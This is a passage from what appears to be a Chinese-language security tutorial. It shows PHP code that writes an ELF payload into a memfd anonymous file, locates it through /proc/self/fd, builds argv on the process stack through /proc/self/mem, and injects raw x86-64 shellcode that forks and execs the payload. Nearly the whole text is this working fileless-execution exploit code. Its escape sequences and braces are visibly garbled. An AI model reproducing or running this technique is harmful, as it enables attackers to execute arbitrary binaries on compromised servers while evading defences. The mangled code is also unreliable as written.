 将payload写入匿名文件：

```
fwrite($fp, $elf);
```

查找文件描述符编号：

```
$found = false;
$fds = scandir("/proc/self/fd");
foreach($fds as $fd) `{`
    $path = "/proc/self/fd/$fd";
    if(!is_link($path)) continue;
    if(strstr(readlink($path), "memfd")) `{`
        $found = true;
        break;
    `}`
`}`
if(!$found) `{`
    echo '[-] memfd not found';
    exit;
`}`
```

将可执行文件路径写入栈：

```
fseek($mem, $stack);
fwrite($mem, "`{`$path`}`x00");
$filename_ptr = $stack;
$stack += strlen($path) + 1;
fseek($mem, $stack);
```

处理待传给可执行程序的参数：

```
fwrite($mem, str_replace(" ", "x00", $args) . "x00");
$str_ptr = $stack;
$argv_ptr = $arg_ptr = $stack + strlen($args) + 1;
foreach(explode(' ', $args) as $arg) `{`
    fseek($mem, $arg_ptr);
    fwrite($mem, packlli($str_ptr));

    $arg_ptr += 8;
    $str_ptr += strlen($arg) + 1;
`}`
fseek($mem, $arg_ptr);
fwrite($mem, packlli(0x0));

echo "[INFO] Argv: " . $args . "n";
```

然后调用`fork()`执行payload：

```
echo "[+] Starting ELFn";
$shellcode = "x6ax39x58x0fx05x85xc0x75x28x6ax70x58x0fx05x6ax39x58x0fx05x85xc0x75x1ax48xbf" 
            . packlli($filename_ptr) 
            . "x48xbe" 
            . packlli($argv_ptr) 
            . "x48x31xd2x6ax3bx58x0fx05xc3x6ax00x5fx6ax3cx58x0fx05";


fseek($mem, $shellcode_loc);
fwrite($mem, $shellcode);
fopen('done', 'r');
exit();
```